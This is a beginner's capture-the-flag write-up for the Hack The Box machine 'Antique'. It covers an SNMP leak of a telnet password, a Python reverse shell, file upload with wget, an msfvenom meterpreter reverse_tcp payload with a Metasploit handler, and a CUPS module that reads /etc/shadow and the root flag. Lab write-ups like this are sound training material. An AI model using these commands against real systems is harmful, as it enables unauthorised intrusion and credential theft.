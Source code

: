 # Antique

This is my write-up for the machine **Antique** located at: [https://app.hackthebox.com/machines/Antique](https://app.hackthebox.com/machines/Antique).&#x20;

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

From the tags, I am able to notice that this machine is about printer exploitation on Linux:

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1) (1) (1) (1).png>)

A basic nmap scan shows that only telnet is online:

![](<../../.gitbook/assets/image (331) (1) (1).png>)

Trying to telnet into the system, it asks for a password:

![](<../../.gitbook/assets/image (348) (1) (1) (1) (1) (1) (1).png>)

I also had a deeper nmap scan running: `nmap -A -T4 -p- 10.10.11.107 -oN antique.nmap`

```
// SomeStarting Nmap 7.92 ( https://nmap.org ) at 2021-12-21 16:13 EST
Warning: 10.10.11.107 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.107
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
23/tcp    open     telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
530/tcp   filtered courier
37918/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=12/21%Time=61C2455F%P=x86_64-pc-linux-gnu%r(NUL
SF:L,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRe
SF:quest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x
SF:20JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DN
SF:SVersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatus
SF:RequestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerb
SF:eros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswo
SF:rd:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19
SF:,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalS
SF:erver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20Jet
SF:Direct\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 626.36 seconds

```

This nmap scan came back with pretty much the same information. I then viewed the walk-through to see where I had messed up. I learned about a tool called **snmpwalk**. In the walk-through, the author runs `snmpwalk -v 2c -c public 10.10.11.107`, which gets the following output:

![](<../../.gitbook/assets/image (332) (1) (1) (1) (1).png>)

I had actually had found the password for telnet on my own, but I was unable to decode it:

![](<../../.gitbook/assets/image (333) (1) (1) (1).png>)

I use **snmpget**, while the walk-through used **snmpwalk**. In the walk-through they used **binascii** (python import) in order to decode the bytes. I wanted to find a solution that was a bit more basic. I ended up using [https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html) to convert the bytes from hex to ascii:

![](<../../.gitbook/assets/image (346) (1) (1) (1) (1) (1) (1).png>)

The password seems to be: **P@ssw0rd@123!!123** I was in!

![](<../../.gitbook/assets/image (323) (1).png>)

I then noticed the walk-through mentioned to run `exec id`. I then tried playing around with linux commands, and ended up finding the user.txt file:

![](<../../.gitbook/assets/image (325).png>)

I noticed the write-up use python for the reverse shell. I then used [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) to see if I can use one of their python commands. Once I changed their python command from **python** to **python3**, it worked:

![](<../../.gitbook/assets/image (349) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1) (1) (1) (1).png>)

I viewed the walk-through again to see what I missed. The walk-through author runs the netstat command to see what connections are there:

![](<../../.gitbook/assets/image (345) (1) (1) (1) (1) (1) (1).png>)

They then go on to say that we should use **chisel** to connect to the port. I ran into an issue here where I was unable to download a GitHub repository onto the machine itself. I then realize that you make the binary locally and then upload it to the server. I uploaded the file to the machine by running `python3 -m http.server` on the folder where chisel was downloaded. I was then able to upload it by running `wget http://10.10.14.10:8000/chisel` on the remote machine. When I uploaded the file, I was unable to run it due to some dependency error in terms of version of libc:

![](<../../.gitbook/assets/image (351) (1) (1) (1) (1) (1).png>)

&#x20;I then followed [this write-up](https://howtohack44323049.wordpress.com/2021/12/13/htb\_antique\_eng/) to see what I missed and what I could have done instead. They run `wget localhost:631`, which makes a file called **index.html** in the folder you are in. There, you can see that CUPS is mentioned:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1) (1).png>)

When we search for cups on metasploit we get the following:

![](<../../.gitbook/assets/image (338) (1) (1) (1) (1) (1).png>)

We first make a shell file to upload to the server. To do this, the walk-through mentioned previously mentions `msfvenom -p linux/x64/meterpreter/reverse`_`tcp LHOST=<`_`YOUR-IP> LPORT=1337 --format elf > shell`. This will make the **shell** file in your directory. To move it to the remote machine, you can use the python http.server command mentioned previously. Before I ran the shell executable, I ran the following commands in Metasploit (based off of [this write-up](https://howtohack44323049.wordpress.com/2021/12/13/htb\_antique\_eng/)):

```
use exploit/multi/handler
set lhost <YOUR_IP>
set lport 1337
set payload linux/x64/meterpreter/reverse_tcp 
run
```

After I ran the **run** command, I then switched to the remote machine and ran the shell executable (run `chmod +x shell` to make it executable). This gave me a connection in Metasploit:

![](<../../.gitbook/assets/image (347) (1) (1) (1) (1) (1) (1).png>)

I then ran the following commands to look for the cups post exploitation program:

![](<../../.gitbook/assets/image (326).png>)

I then hit run and got an output:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1) (1).png>)

Opening that file shows the output of /etc/shadow:

![](<../../.gitbook/assets/image (342) (1) (1) (1) (1) (1).png>)

Since we want to get the output of /root/root.txt, I changed my option in metasploit to that:

![](<../../.gitbook/assets/image (335) (1) (1) (1) (1) (1).png>)

Reading that file got me the root flag:

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1) (1) (1).png>)
